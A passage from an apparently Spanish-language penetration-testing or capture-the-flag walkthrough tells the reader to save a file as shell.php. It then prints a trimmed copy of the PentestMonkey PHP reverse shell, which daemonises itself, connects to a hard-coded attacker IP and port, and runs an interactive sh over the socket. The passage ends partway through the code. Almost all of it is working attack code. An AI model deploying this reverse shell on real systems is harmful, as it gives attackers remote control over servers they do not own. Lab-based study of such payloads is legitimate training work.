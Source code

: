 Guárdala como `shell.php`.

> 💡 También puedes usar algo más completo como la [PentestMonkey PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell), si quieres una reverse shell.

```bash
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.159';
$port = 1337;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
```